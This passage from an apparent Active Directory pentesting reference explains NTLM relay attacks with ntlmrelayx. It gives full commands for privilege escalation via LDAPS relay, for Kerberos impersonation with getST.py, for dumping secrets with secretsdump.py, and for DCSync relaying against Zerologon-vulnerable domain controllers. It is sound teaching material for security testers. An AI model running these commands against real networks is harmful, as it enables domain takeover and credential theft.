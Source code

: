 ```bash
ntlmrelayx.py -t ldaps://$DC_TARGET --escalate-user SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account \(e.g. the domain admin\) on it.

```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```
{% endtab %}

{% tab title="DCSync" %}
A [DCSync](../credentials/dumping/dcsync.md) can also be operated with a relayed NTLM authentication, but only if the target domain controller is vulnerable to [Zerologon](../netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```
{% endtab %}
{% endtabs %}

### Tips & tricks

The ntlmrelayx tool offers features making it a very valuable asset when pentesting an Active Directory domain:

* It can work with mitm6 \(for [DHCPv6 + DNS poisoning](../mitm-and-coerced-authentications/#ipv6-dns-poisoning)\) by enabling IPv6 support with the `-6` option \(IPv6 support is not required since most hosts will send IPv4 but using this option is recommended since it will allow relay servers to work with IPv4 and IPv6\)
* It supports SMB2. It can be enabled with the `-smb2support` option
* It implements **CVE-2019-1040** with the `--remove-mic` option, usually needed when attempting "cross-protocols unsigning relays" \(e.g. **SMB to SMB-with-required-signing, or SMB to LDAP/S\)**
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`, and the `-w` option can be set to watch the target file for changes and update target list automatically
* It has the ability to dump domain info when relaying to LDAP\(S\)
* It has the ability to relay connections for specific target users to be defined in the targets file
* It has the ability to relay a single connection \(SMB only for now\) to multiple targets, see below

{% hint style="info" %}
Thanks to [the "multi-relay" feature](https://www.secureauth.com/blog/what-old-new-again-relay-attack), another attacker machine/interface can be added to the targets to combine ntlmrelayx with Responder servers. The attackers will be able capture a ChallengeResponse \(i.e. LM or NTLM hash\) with a custom challenge on an interface/machine, while relaying on another.
{% endhint %}
